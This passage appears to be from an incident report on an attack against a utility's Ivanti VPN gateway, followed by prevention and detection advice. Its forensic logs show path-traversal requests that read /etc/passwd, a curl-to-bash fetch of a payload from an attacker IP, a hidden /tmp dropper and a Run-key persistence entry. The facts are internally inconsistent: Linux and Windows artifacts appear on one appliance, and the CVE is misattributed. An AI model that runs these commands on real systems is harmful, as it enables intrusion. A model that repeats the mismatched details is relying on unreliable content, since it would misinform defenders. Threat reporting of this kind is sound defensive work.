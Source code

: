 **Forensic Evidence - Attack Initiation:**
```
[2023-12-08 14:23:42] 203.0.113.47 - GET /api/v1/totp/user-backup-code/../../../../../../etc/passwd HTTP/1.1
Host: vpn-gw.utility-corp.local
User-Agent: Mozilla/5.0 (compatible; VOLTZITE scanner v2.1)
Connection: close

[2023-12-08 14:23:43] 203.0.113.47 - POST /api/v1/configuration/users/user-backup-code/../../../../../../etc/passwd HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 47

[2023-12-08 14:23:44] Response: 200 OK
Content-Type: text/plain
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
```

**Command Execution Evidence:**
```bash
# VOLTZITE post-exploitation commands observed
curl -s "hxxp://203.0.113.47/stage1" | bash
echo "Y29tcHJvbWlzZWQ=" | base64 -d > /tmp/.system_update
chmod +x /tmp/.system_update && /tmp/.system_update &
```

**Registry Artifacts - Initial Persistence:**
```
HKLM\Software\Microsoft\Windows\CurrentVersion\Run
Value Name: IvantiBridgeService
Value Data: "C:\Program Files\Ivanti\Connect Secure\bin\dsw.exe" -service
Timestamp: 2023-12-08 14:25:15
```

#### Prevention

**Vulnerability Management**  
Implement automated vulnerability scanning and patch management for all Internet-facing VPN infrastructure. CVE-2023-46747 had available patches that were not deployed in affected environments.

**Network Segmentation**  
Deploy VPN infrastructure in dedicated DMZ networks with strict access controls preventing direct access to operational technology environments. (Source: ATT&CK mitigation M1030)

**Multi-Factor Authentication**  
Implement strong multi-factor authentication for all VPN access, particularly for accounts with administrative privileges on energy management systems. (Source: ATT&CK mitigation M1032)

#### Detection

**VPN Access Monitoring**  
Monitor authentication logs for unusual patterns, including authentication bypass attempts and administrative access from unexpected geographic locations. Implement behavioral analytics for VPN usage patterns.
